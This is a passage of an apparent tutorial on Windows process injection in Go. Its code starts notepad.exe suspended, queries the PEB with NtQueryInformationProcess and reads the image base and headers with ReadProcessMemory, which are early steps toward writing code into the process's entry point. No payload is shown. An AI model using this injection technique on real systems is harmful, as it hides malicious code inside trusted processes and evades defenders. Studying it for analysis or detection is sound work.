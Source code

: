 Then we create the already mentioned process

```go
fmt.Println("[*] Calling CreateProcess...")
err := windows.CreateProcess(
  nil,
  syscall.StringToUTF16Ptr("C:\\Windows\\System32\\notepad.exe"),
  nil,
  nil,
  false,
  windows.CREATE_SUSPENDED,
  nil,
  nil,
  &si,
  &pi,
)
if err != nil {
  log.Fatal(err)
}
```


Now we call ***NtQueryInformationProcess*** to be able to get the PEB offset

```go
fmt.Println("[*] Calling NtQueryInformationProcess...")
NtQueryInformationProcess.Call(
  uintptr(pi.Process),
  uintptr(info),
  uintptr(unsafe.Pointer(&pbi)),
  uintptr(unsafe.Sizeof(windows.PROCESS_BASIC_INFORMATION{})),
  uintptr(unsafe.Pointer(&returnLength)),
)
```

Then let's call ***ReadProcessMemory*** to get image base address and to calculate later the entry point address

```go
pebOffset:= uintptr(unsafe.Pointer(pbi.PebBaseAddress))+0x10
var imageBase uintptr = 0

fmt.Println("[*] Calling ReadProcessMemory...")
ReadProcessMemory.Call(
  uintptr(pi.Process),
  pebOffset,
  uintptr(unsafe.Pointer(&imageBase)),
  8,
  0,
)

headersBuffer := make([]byte,4096)

fmt.Println("[*] Calling ReadProcessMemory...")
ReadProcessMemory.Call(
  uintptr(pi.Process),
  uintptr(imageBase),
  uintptr(unsafe.Pointer(&headersBuffer[0])),
  4096,
  0,
)

fmt.Printf("\n[*] Image Base: 0x%x\n", imageBase)
fmt.Printf("[*] PEB Offset: 0x%x\n", pebOffset)
```
